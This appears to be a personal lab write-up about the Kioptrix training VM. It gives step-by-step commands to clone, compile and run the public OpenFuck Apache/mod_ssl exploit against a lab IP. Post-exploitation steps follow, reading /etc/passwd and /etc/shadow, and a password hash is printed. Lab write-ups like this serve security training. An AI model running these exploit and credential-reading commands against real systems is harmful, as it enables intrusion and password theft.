 [Cloning the OpenFuckV2 vulnerabilities based on our findings](https://github.com/heltonWernik/OpenFuck.git)

**Continuation of previous exploit**
[[Gaining Root with Metasploit]] #Kioptrix 
# OpenLuck


Original is OpenFu*&%$#, I change for something more elegant

## [](https://github.com/heltonWernik/OpenLuck?tab=readme-ov-file#usage)Usage
This Exploit ([https://www.exploit-db.com/exploits/764/](https://www.exploit-db.com/exploits/764/)) is outdated. Here you can take updated

1. Download OpenFuck.c

```
git clone https://github.com/heltonWernik/OpenFuck.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

```
gcc -o OpenFuck OpenFuck.c -lcrypto
```

4. Running the Exploit

```
./OpenFuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option ./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:

```
./OpenFuck 0x6a 192.168.80.145 443 -c 40
```

**References:** [https://kongwenbin.wordpress.com/tag/openfuck/](https://kongwenbin.wordpress.com/tag/openfuck/) [https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1](https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1)

![[Pasted image 20240214094857.png]]
**After identifying the server and version of the target we can attack it now with specific hexadecimal number based on the option from ./Open**
```
┌──(kali㉿kali)-[~/Desktop/kioptrix/OpenFuck]
└─$ ./Open 0x6b 192.168.189.130 -c 40
```

**Voila! We successfully exploited the Kioptrix using manual exploit**

![[Pasted image 20240214100733.png]]
**After we compromise the target the next thing is post exploitation. this part usually asking ourselves on how we can damage more in the server technically getting into target without doing anything is just nothing**

```
cat /etc/passwd
```
**root:x:0:0:root:/root:/bin/bash** so the **x** after the root is the placeholder of the password they linux decided to move it and encrypt it.

![[Pasted image 20240214101705.png]]

**So we gonna try other thing.** so we use the shadow instead of password because that's where the password located at.

![[Pasted image 20240214101954.png]]
```
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
```